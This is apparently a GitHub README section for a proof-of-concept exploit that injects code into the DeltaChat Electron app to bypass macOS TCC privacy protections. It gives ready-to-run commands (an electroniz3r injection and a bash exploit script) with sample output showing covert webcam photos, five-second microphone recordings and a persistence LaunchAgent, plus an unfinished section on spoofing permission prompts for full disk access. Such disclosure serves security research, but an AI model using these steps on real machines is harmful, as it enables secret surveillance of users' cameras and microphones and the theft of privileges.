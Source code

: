 # Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Bash Script 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, then you can choose between exploiting camera or microphone TCC bypass. 

Execute bash script:
```sh
bash full_exploit.sh
# or
chmod +x full_exploit.sh && ./full_exploit.sh
```

Example output camera: (auto opens the selfie)
```sh
kunpeeks@MacBook-Pro-van-Kun % bash exploit.sh 
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 1
[*] Generating Swift payload...
[*] Mode: Camera (selfie)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Selfie taken! Opening...
```

Example output microphone: (does not auto open the recording file, I'm too lazy too fix it)
```sh
kunpeeks@MacBook-Pro-van-Kun 2 % bash exploit.sh
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 2
[*] Generating Swift payload...
[*] Mode: Microphone (5 sec recording)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Audio recording complete! Playing...
Error: AudioFileOpen failed ('dta?')
```

The recorded 5s audio file is located in `/tmp/recording.m4a`. 



### Prompt Spoofing

This payload triggers a macOS TCC prompt for disk access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

TODO: ^
TODO: Update filenames, of .sh scripts, minor chanegs n stuff





